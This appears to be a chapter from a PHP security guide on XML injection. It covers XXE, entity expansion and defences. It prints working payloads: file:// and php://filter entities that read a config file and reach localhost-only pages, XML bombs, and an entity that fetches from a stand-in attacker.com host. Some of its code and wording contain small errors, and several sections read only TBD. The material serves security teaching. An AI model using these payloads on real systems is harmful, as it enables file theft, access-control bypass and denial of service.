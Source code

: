 XML Injection
=============

Despite the advent of JSON as a lightweight means of communicating data between a server and client, XML remains a viable and popular alternative that is often supported in parallel to JSON by web service APIs. Outside of web services, XML is the foundation of exchanging a diversity of data using XML schemas such as RSS, Atom, SOAP and RDF, to name but a few of the more common standards.

XML is so ubiquitous that it can also be found in use on the web application server, in browsers as the format of choice for XMLHttpRequest requests and responses, and in browser extensions. Given its widespread use, XML can present an attractive target for XML Injection attacks due to its popularity and the default handling of XML allowed by common XML parsers such as libxml2 which is used by PHP in the ``DOM``, ``SimpleXML`` and ``XMLReader`` extensions. Where the browser is an active participant in an XML exchange, consideration should be given to XML as a request format where authenticated users, via a Cross-Site Scripting attack, may be submitting XML which is actually written by an attacker.

XML External Entity Injection
-----------------------------

Vulnerabilities to an XML External Entity Injection (XXE) exist because XML parsing libraries will often support the use of custom entity references in XML. You'll be familiar with XML's standard complement of entities used to represent special markup characters such as ``&gt;``, ``&lt;``, and ``&apos;``. XML allows you to expand on the standard entity set by defining custom entities within the XML document itself. Custom entities can be defined by including them directly in an optional ``DOCTYPE`` and the expanded value they represent may reference an external resource to be included. It is this capacity of ordinary XML to carry custom references which can be expanded with the contents of an external resources that gives rise to an XXE vulnerability. Under normal circumstances, untrusted inputs should never be capable of interacting with our system in unanticipated ways and XXE is almost certainly unexpected for most programmers making it an area of particular concern.

For example, let's define a new custom entity called "harmless":

.. code-block:: xml

    <!DOCTYPE results [ <!ENTITY harmless "completely harmless"> ]>

An XML document with this entity definition can now refer to the &harmless; entity anywhere where entities are allowed:

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [<!ENTITY harmless "completely harmless">]>
    <results>
        <result>This result is &harmless;</result>
    </results>

An XML parser such as PHP DOM, when interpreting this XML, will process this custom entity as soon as the document loads so that requesting the relevant text will return the following:

    This result is completely harmless

Custom entities obviously have a benefit in representing repetitive text and XML with shorter named entities. It's actually not that uncommon where the XML must follow a particular grammar and where custom entities make editing simpler. However, in keeping with our theme of not trusting outside inputs, we need to be very careful as to what all the XML our application is consuming is really up to. For example, this one is definitely not of the harmless variety:

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [<!ENTITY harmless SYSTEM "file:///var/www/config.ini">]>
    <results>
        <result>&harmless;</result>
    </results>

Depending on the contents of the requested local file, the content could be used when expanding the ``&harmless;`` entity and the expanded content could then be extracted from the XML parser and included in the web application's output for an attacker to examine, i.e. giving rise to Information Disclosure. The file retrieved will be interpreted as XML unless it avoids the special characters that trigger that interpretation thus making the scope of local file content disclosure limited. If the file is intepreted as XML but does not contain valid XML, an error will be the likely result preventing disclosure of the contents. PHP, however, has a neat "trick" available to bypass this scope limitation and remote HTTP requests can still, obviously, have an impact on the web application even if the returned response cannot be communicated back to the attacker.

PHP offers three frequently used methods of parsing and consuming XML: PHP ``DOM`, ``SimpleXML`` and ``XMLReader``. All three of these use the ``libxml2`` extension and external entity support is enabled by default. As a consequence, PHP has a by-default vulnerability to XXE which makes it extremely easy to miss when considering the security of a web application or an XML consuming library. 

Examples of XML External Entity Injection
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

File Content And Information Disclosure
"""""""""""""""""""""""""""""""""""""""

We previously met an example of Information Disclosure by noting that a custom entity in XML could reference an external file.

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [<!ENTITY harmless SYSTEM "file:///var/www/config.ini">]>
    <results>
        <result>&harmless;</result>
    </results>

This would expand the custom ``&harmless;`` entity with the file contents. Since all such requests are done locally, it allows for disclosing the contents of all files that the application has read access to. This would allow attackers to examine files that are not publicly available should the expanded entity be included in the output of the application. The file contents that can be disclosed in this are significantly limited - they must be either XML themselves or a format which won't cause XML parsing to generate errors. This restriction can, however, be completely ignored in PHP:

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [
        <!ENTITY harmless SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/config.ini">
    ]>
    <results>
        <result>&harmless;</result>
    </results>

PHP allows access to a PHP wrapper in URI form as one of the protocols accepted by common filesystem functions such as ``file_get_contents()``, ``require()``, ``require_once()``, ``file()``, ``copy()`` and many more. The PHP wrapper supports a number of filters which can be run against a given resource so that the results are returned from the function call. In the above case, we use the ``convert.base-64-encode`` filter on the target file we want to read.

What this means is that an attacker, via an XXE vulnerability, can read any accessible file in PHP regardless of its textual format. All the attacker needs to do is base64 decode the output they receive from the application and they can dissect the contents of a wide range of non-public files with impunity. While this is not itself directly causing harm to end users or the application's backend, it will allow attackers to learn quite a lot about the application they are attempting to map which may allow them to discover other vulnerabilities with a minimum of effort and risk of discovery.

Bypassing Access Controls
"""""""""""""""""""""""""

Access Controls can be dictated in any number of ways. Since XXE attacks are mounted on the backend to a web application, it will not be possible to use the current user's session to any effect but an attacker can still bypass backend access controls by virtue of making requests from the local server. Consider the following primitive access control:

.. code-block:: php

    if (isset($_SERVER['HTTP_CLIENT_IP'])
        || isset($_SERVER['HTTP_X_FORWARDED_FOR'])
        || !in_array(@$_SERVER['REMOTE_ADDR'], array(
            '127.0.0.1',
            '::1',
        ))
    ) {
        header('HTTP/1.0 403 Forbidden');
        exit(
            'You are not allowed to access this file. Check '
            . basename(__FILE__)
            . ' for more information.'
        );
    }

This snippet of PHP and countless others like it are used to restrict access to certain PHP files to the local server, i.e. localhost. However, an XXE vulnerability in the frontend to the application actually gives an attacker the exact credentials needed to bypass this access control since all HTTP requests by the XML parser will be made from localhost.

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [
        <!ENTITY harmless SYSTEM
        "php://filter/read=convert.base64-encode/resource=http://example.com/viewlog.php"
        >
    ]>
    <results>
        <result>&harmless;</result>
    </results>

If log viewing were restricted to local requests, then the attacker may be able to successfully grab the logs anyway. The same thinking applies to maintenance or administration interfaces whose access is restricted in this fashion.

Denial Of Service (DOS)
"""""""""""""""""""""""

TBD

Defenses against XML External Entity Injection
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Considering the very attractive benefits of this attack, it might be surprising that the defense is extremely simple. Since ``DOM``, ``SimpleXML``, and ``XMLReader`` all rely on ``libxml2``, we can simply use the ``libxml_disable_entity_loader()`` function to disable external entity resolution. This does not disable custom entities which are predefined in a ``DOCTYPE`` since these do not make use of external resources which require a file system operation or HTTP request.

.. code-block:: php

    $oldValue = libxml_disable_entity_loader(true);
    $dom = new DOMDocument();
    $dom->loadXML($xml);
    libxml_disable_entity_loader($oldValue);

You would need to do this for all operations which involve loading XML from a string, file or remote URI.

Where external entities are never required by the application or for the majority of its requests, you can simply disable external resource loading altogether on a more global basis which, in most cases, will be far more preferable to locating all instances of XML loading, bearing in mind many libraries are probably written with innate XXE vulnerabilities present:

.. code-block:: php
    
    libxml_disable_entity_loader(true);

Just remember to reset this once again to ``TRUE`` after any temporary enabling of external resource loading. An example of a process which requires external entities in an innocent fashion is rendering Docbook XML into HTML where the XSL styling is dependent on external entities.

This ``libxml2`` function is not, by an means, a silver bullet. Other extensions and PHP libraries which parse or otherwise handle XML will need to be assessed to locate their "off" switch for external entity resolution.

In the event that the above type of behaviour switching is not possible, you can alternatively check if an XML document declares a ``DOCTYPE``. If it does, and external entities are not allowed, you can then simply discard the XML document, denying the untrusted XML access to a potentially vulnerable parser, and log it as a probable attack. If you log attacks this will be a necessary step since there be no other errors or exceptions to catch the attempt. This check should be built into your normal Input Validation routines.

.. code-block:: php
    
    $collapsedXML = preg_replace("/[:space:]/", '', $xml);
    if(preg_match("/<!DOCTYPE/i", $collapsedXml)) {
        // log the presence of custom entities
        throw new \InvalidArgumentException(
            'Invalid XML: Detected use of XML custom entities'
        )
    }

It is also worth considering that it's preferable to simply discard data that we suspect is the result of an attack rather than continuing to process it further. Why continue to engage with something that shows all the signs of being dangerous? Therefore, merging both steps from above has the benefit of proactively ignoring obviously bad data while still protecting you in the event that discarding data is beyond your control (e.g. 3rd-party libraries). Discarding the data entirely becomes far more compelling for another reason stated earlier - ``libxml_disable_entity_loader()`` does not disable custom entities entirely, only those which reference external resources. This can still enable a related Injection attack called XML Entity Expansion which we will meet next.

XML Entity Expansion
--------------------

XMl Entity Expansion is somewhat similar to XML Entity Expansion but it focuses primarily on enabling a Denial Of Service (DOS) attack by attempting to exhaust the resources of the target application's server environment. This is achieved in XML Entity Expansion by creating a custom entity definition in the XML's ``DOCTYPE`` which could, for example, generate a far larger XML structure in memory than the XML's original size would suggest thus allowing these attacks to consume memory resources essential to keeping the web server operating efficiently.

XML Entity Expansion Examples
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

There are several approaches to expanding XML custom entities to achieve the desired effect of exhausting server resources.

Generic Entity Expansion
""""""""""""""""""""""""

In a generic entity expansion attack, a custom entity is defined as an extremely long string. When the entity is used numerous times throughout the document, the entity is expanded each time leading to an XML structure which requires significantly more RAM than the original XML size would suggest.

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [<!ENTITY $long "SOME_SUPER_LONG_STRING">]>
    <results>
        <result>Now include &long; lots of times to expand
        the in-memory size of this XML structure</result>
        <result>&long;&long;&long;&long;&long;&long;&long;
        &long;&long;&long;&long;&long;&long;&long;&long;
        &long;&long;&long;&long;&long;&long;&long;&long;
        &long;&long;&long;&long;&long;&long;&long;&long;
        Keep it going...
        &long;&long;&long;&long;&long;&long;&long;...</result>
    </results>

By balancing the size of the custom entity string and the number of uses of the entity within the body of the document, it's possible to create an XML
file or string which will be expanded to use up a predictable amount of server RAM. By occupying the server's RAM with repetitive requests of this nature, it would be possible to mount a successful Denial Of Service attack. The downside of the approach is that the initial XML must itself be quite large since the memory consumption is based on a simple multiplier effect.

Recursive Entity Expansion
""""""""""""""""""""""""""

Where generic entity expansion requires a large XML input, recursive entity expansion packs more punch per byte of input size. It relies on the XML parser to exponentially resolve sets of small entities in such a way that their exponential nature explodes from a much smaller XML input size into something substantially larger. It's quite fitting that this approach is also commonly called an "XML Bomb".

.. code-block:: xml

    <?xml version="1.0"?>
    <!DOCTYPE results [
        <!ENTITY x0 "BOOM!">
        <!ENTITY x1 "&boom;&boom;">
        <!ENTITY x2 "&x1;&x1;">
        <!ENTITY x3 "&x2;&x2;">
        <!-- Add the remaining sequence from x4...x100 (or boom) -->
        <!ENTITY x99 "&x98;&x98;">
        <!ENTITY boom "&x99;&x99;">
    ]>
    <results>
        <result>Explode in 3...2...1...&boom;</result>
    </results>

The XML Bomb approach doesn't require a large XML size which might be restricted by the application. It's exponential resolving of the entities results in a final text expansion that is 2^100 times the size of the ``&x0;`` entity. That's quite a large and devastating BOOM!

Remote Entity Expansion
"""""""""""""""""""""""

Both normal and recursive entity expansion attacks rely on locally defined entities in the XML's DTD but an attacker can also define the entities externally. This obviously requires that the XML parser is capable of making remote HTTP requests which, as we met earlier in describing XML External Entity Injection (XXE), should be disabled for your XML parser as a basic security measure. As a result, defending against XXEs defends against this form of XML Entity Expansion attack.
 
Nevertheless, the way remote entity expansion works is by leading the XML parser into making remote HTTP requests to fetch the expanded value of the referenced entities. The results will then themselves define other external entities that the XML parser must additionally make HTTP requests for. In this way, a couple of innocent looking requests can rapidly spiral out of control adding strain to the server's available resources with the final result perhaps itself encompassing a recursive entity expansion just to make matters worse.
 
.. code-block:: xml
 
    <?xml version="1.0"?>
    <!DOCTYPE results [
        <!ENTITY cascade SYSTEM "http://attacker.com/entity1.xml">
    ]>
    <results>
        <result>3..2..1...&cascade<result>
    </results>
 
The above also enables a more devious approach to executing a DOS attack should the remote requests be tailored to target the local application or any other application sharing its server resources. This can lead to a self-inflicted DOS attack where attempts to resolve external entities by the XML parser may trigger numerous requests to locally hosted applications thus consuming an even greater propostion of server resources. This method can therefore be used to amplify the impact of our earlier discussion about using XML External Entity Injection (XXE) attacks to perform a DOS attack.

Defenses Against XML Entity Expansion
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

TBD

SOAP Injection
--------------

TBD